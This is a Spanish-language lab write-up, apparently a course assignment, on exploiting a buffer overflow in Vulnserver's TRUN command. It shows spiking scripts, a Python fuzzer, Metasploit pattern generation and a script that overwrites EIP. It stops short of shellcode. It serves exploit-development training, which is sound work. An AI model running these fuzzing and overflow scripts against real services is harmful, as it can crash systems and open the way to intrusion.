```yaml
---
title: Buffer Overflow - Tarea 3
date: 2024-11-04 00:19:00 -05:00
categories: [Buffer Overflows Exploitation Techniques]
tags: [Cybersecurity Ethical Hacking]  # TAG names should always be lowercase
---
```


## **Desbordamiento de Búfer** ##

*Proceso de Spiking*
*El spiking es un método que se utiliza para identificar partes vulnerables en un programa. El objetivo es enviar grandes cantidades de datos a un comando específico y ver si se produce un desbordamiento del búfer, lo que resultaría en un fallo o un bloqueo del programa. Si el programa falla, se identifica esa parte como vulnerable. Si no, se pasa al siguiente comando.*

*En este caso, el servidor vulnerable escucha en el puerto 9999, y los comandos válidos se pueden ver escribiendo HELP una vez conectado al servidor usando Netcat. Entre los comandos listados, el comando TRUN será el foco, ya que es vulnerable a un desbordamiento de búfer.*

```bash
$ nc IP_del_servidor_Windows 9999
```

![cd](/assets/images/tarea1.png)

*servicio corriendo*

*Se debe guardar cada script con un nombre descriptivo, como stats.spk o trun.spk. Luego, se ejecuta Generic Send TCP con los parámetros adecuados para enviar los datos.*

```bash
s_readline();
s_string("STATS ");
s_string_variable("0");
```

```bash
s_readline();
s_string("TRUN ");
s_string_variable("0");
```
![cd](/assets/images/tarea3.png)

*Se debe guardar cada script con un nombre descriptivo, como stats.spk o trun.spk. Luego, se ejecuta Generic Send TCP con los parámetros adecuados para enviar los datos.
generic_send_tcp 10.0.2.15 9999 trun.spk 0 0*

```bash
Fuzzing Variable 0:68
Variablesize= 1024
Fuzzing Variable 0:69
Variablesize= 1023
Fuzzing Variable 0:70
Variablesize= 512
```
**Generic --> STATS**
```bash
generic_send_tcp 192.168.18.11 9999 lspiking_stats.spk 0 0
```
![cd](/assets/images/tarea4.png)

**Si el programa es vulnerable, el vulnserver se detendrá.**

![cd](/assets/images/tarea5.png)

**Generic --> TRUN**
```bash
generic_send_tcp 192.168.18.11 9999 lspiking_trun.spk 0 0
```

## **FUZING** ##

*Desarrollo del Fuzzing*
Para realizar el fuzzing, se ha construido un script en Python. El objetivo de este script es enviar grandes cantidades de datos al comando TRUN para identificar en qué punto se produce un fallo en el servidor.

```bash
#!/usr/bin/python
import sys, socket
from time import sleep

buffer = "A" * 100
ip_address = '192.168.0.12'

while True:
    try:
        s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((ip_address,9999))
        s.send(('TRUN /.:/' + buffer).encode(`utf-8`))
        s.close()
        sleep(1)
        buffer = buffer + "A" * 100
    except:
        print("Fuzzing crash en %s bytes " % str(len(buffer)) )
        sys.exit()
```
![cd](/assets/images/tarea6.PNG)

**Ejecución del Script**
Una vez guardado el script en un archivo (por ejemplo, fuzzing.py), se le deben otorgar permisos de ejecución con el siguiente comando en Kali Linux:

```bash
chmod +x fuzzing.py
```

```bash
./fuzzing.py
```

![cd](/assets/images/tarea7.PNG)

## **Encontrando el Offset** ##

**Creación del Patrón**
Primero, se debe generar un patrón cíclico de aproximadamente 3000 bytes, ya que en el fuzzing previo se identificó que el servidor vulnerable colapsaba con buffers de alrededor de 2700 bytes. Para esto, ejecutamos el siguiente comando en la terminal de Kali Linux:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
```
![cd](/assets/images/tarea8.png)

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2800
```
![cd](/assets/images/tarea9.png)


## **Sobrescribiendo el EIP** ##

Modificación del Script

Primero, es necesario modificar el script que se utilizó previamente para encontrar el offset. En este caso, se reemplaza el código que se utilizó para calcular el offset con un payload que contenga los datos para sobrescribir el EIP. El proceso consiste en lo siguiente:

Abrir el script anterior en un editor de texto, como gedit.
Eliminar la variable de offset utilizada previamente, ya que ahora se procederá a enviar datos controlados directamente para sobrescribir el EIP.
En lugar del offset, se utilizará un código que envía 2003 bytes de “A” seguidos de 4 bytes de “B”. Esto se hace para verificar que el EIP se sobrescribe correctamente con los valores deseados. En términos de bytes, las “A” representan el valor 0x41 y las “B” el valor 0x42.

```bash
import sys, socket
from time import sleep

shellcode = "A" * 2003 + "B" * 4  # caracter "A" 2003 veces seguido de 4 caracters "B"
ip_address = '192.168.0.12'

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip_address, 9999))
    s.send(('TRUN /.:/' + shellcode).encode('utf-8'))
    s.close()
except:
    print("Error al conectar con el servidor")
    sys.exit()
```
![cd](/assets/images/tarea10.png)

```bash
./finding-offset.py
ls -lh finding-offset.py 
chmod +x finding-offset.py
 ls -lh finding-offset.py
 ```
![cd](/assets/images/tarea11.png)